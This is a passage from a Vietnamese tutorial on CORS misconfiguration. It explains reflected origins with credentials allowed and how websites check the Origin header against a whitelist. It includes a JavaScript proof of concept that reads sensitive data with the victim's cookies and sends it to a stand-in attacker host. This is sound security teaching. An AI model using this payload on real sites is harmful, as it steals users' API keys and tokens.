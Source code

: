 `Access-Control-Allow-Origin: [https://malicious-website.com](https://malicious-website.com/)`

`Access-Control-Allow-Credentials: true`

`...`



 
Các header cho thấy người dùng có quyền truy cập từ domain requests và các cross-domain có thể bao gồm cookie của domain trước đó với header `**Access-Control-Allow-Credentials**: true`

Vì: website phản ánh origin bất kỳ trong header `**Access-Control-Allow-Credentials**: true`

Điều này có nghĩa là bất kỳ domain nào cũng có thể truy cập tài nguyên từ domain dễ bị tấn công

Nếu response chứa các thông tin nhạy cảm như API key hoặc CSRF token, ta có thể truy xuất các thông tin này bằng cách tạo một website giả mạo với javascript như sau:


`var req = new XMLHttpRequest();`

`req.onload = reqListener;`

`req.open('get','[https://vulnerable-website.com/sensitive-victim-data](https://vulnerable-website.com/sensitive-victim-data)',true);`

`req.withCredentials = true;`

`req.send();`

`function reqListener() {`

 `location='//malicious-website.com/log?key='+this.responseText;`

`};`



### Lỗi phân tích cú pháp Origin header

Một số website áp dụng blacklist để giới hạn origin được phép truy cập.

Khi nhận thấy có request **CORS**, origin được cung cấp sẽ được so sánh với `whitelist`. Nếu khớp thì sẽ được phản hồi trong `**Access-Control-Allow-Origin**`

Ví dụ: website nhận được request như này:
 

`GET /data HTTP/1.1`

`Host: normal-website.com`

`...`

`Origin: [https://innocent-website.com](https://innocent-website.com/)`



Nếu domain này nằm trong whitelist thì response sẽ là:


`HTTP/1.1 200 OK`

`...`

`Access-Control-Allow-Origin: [https://innocent-website.com](https://innocent-website.com/)`
